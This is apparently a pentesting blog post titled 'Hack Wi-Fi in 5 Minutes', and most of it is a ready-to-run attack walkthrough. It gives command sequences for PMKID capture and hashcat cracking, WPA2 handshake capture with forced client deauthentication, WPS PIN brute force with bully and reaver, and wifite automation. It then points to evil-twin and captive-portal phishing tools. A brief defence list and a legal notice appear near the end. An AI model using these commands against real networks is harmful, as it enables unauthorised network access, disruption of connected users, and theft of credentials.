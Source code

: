 ```yaml
---
title: "Hack Wi-Fi in 5 Minutes: WPA/WPA2/WPS Hacks"
description: >-
  No fluff. This is how real hackers break into most Wi-Fi networks in under 5 minutes. PMKID snatching, handshake cracking, WPS brute force, and real-world field tricks.
author:
name:
date: 2025-03-2 14:00:00 +0000
categories: [Pentesting]
tags: [wifi, aircrack, wpa, wps, pmkid, hacking, network]
---
```


> “Weak passwords + WPS or PMKID = Wi-Fi owned in 5 minutes.”
{: .prompt-info }

---

## Requirements

- Kali Linux / Parrot OS / BlackArch
- Wireless adapter that supports monitor mode and packet injection
- Tools: `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`, `bully`, `reaver`, `hcxdumptool`, `hcxpcapngtool`, `hashcat`

---

## Option 1: PMKID Attack (No Clients Required)

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo hcxdumptool -i wlan0mon -o dump.pcapng --enable_status=1
```

Wait ~30 seconds to capture PMKID (no need to deauth anyone).

Convert the capture:
```bash
hcxpcapngtool -o hash.hc22000 dump.pcapng
```

Crack it:
```bash
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
```

---

## Option 2: WPA2 Handshake Capture + Crack

### 1. Enable monitor mode
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

### 2. Scan for targets
```bash
airodump-ng wlan0mon
```

### 3. Capture handshake
```bash
airodump-ng -c <CH> --bssid <BSSID> -w handshake wlan0mon
```

### 4. Force deauthentication
```bash
aireplay-ng -0 5 -a <BSSID> -c <ClientMAC> wlan0mon
```

> `"Wait for "WPA Handshake" message to confirm capture."`{: .filepath}


### 5. Crack the handshake
```bash
aircrack-ng handshake.cap -w /usr/share/wordlists/rockyou.txt
```

> Use smarter wordlists from `cupp`, `pyrrate`, or custom `crunch`.
{: .prompt-tip }

---

## Option 3: WPS PIN Bruteforce

Try this if WPS is enabled. It's usually faster than handshake cracking.

### Bully (faster):
```bash
bully wlan0mon -b <BSSID> -c <CH>
```

### Reaver (slower fallback):
```bash
reaver -i wlan0mon -b <BSSID> -vv
```

Successful output gives:
```
[+] WPS PIN: 12345670
[+] WPA PSK: supersecretwifi123
```

---

## Bonus: Wi-Fi Password Spraying with Wifite

```bash
wifite
```

- Automates WPS/PMKID/Handshake attacks
- Use with custom rules and timeouts:
```bash
wifite --dict /path/to/wordlist.txt
```

---

## Defend Against These Attacks

- Disable WPS permanently
- Use WPA3 or WPA2 with 802.11w (PMF enabled)
- Use a secure password (16+ characters, symbols, random)
- Monitor wireless traffic with IDS/IPS tools like `Kismet`

---

## Legal Notice

> This guide is for educational and authorized penetration testing only. Unauthorized Wi-Fi hacking is illegal and unethical.
{: .prompt-warning }

---

## Speedrun Summary

| Attack Type         | Time     | Success Rate |
|---------------------|----------|---------------|
| PMKID Attack        | 1–2 min  | High          |
| WPA2 Handshake      | 3–4 min  | Medium–High   |
| WPS Bruteforce      | 1–5 min  | Very High     |
| Wordlist Cracking   | Varies   | Depends on pass strength |

---

## Next-Level Wireless Hacking (Advanced Ops)

- Rogue APs with `airgeddon` or `eaphammer`
- Evil twin + captive portal phishing with `wifiphisher`
- Use `hostapd` to clone SSIDs and trap clients
- Fake enterprise Wi-Fi with `hostapd-wpe`
- Crack EAP/MSCHAPv2 creds with `asleap`

---

## Lab Ideas

- Set up Wi-Fi attack VMs
- Use Raspberry Pi as a covert hacking station
- Practice using `WiFi Pumpkin 3` or `Fluxion`
- Capture real traffic from multiple clients using `hcxdumptool`

---

> **`“You don’t need to be the fastest. You just need to be near the signal.”`**{: .filepath}
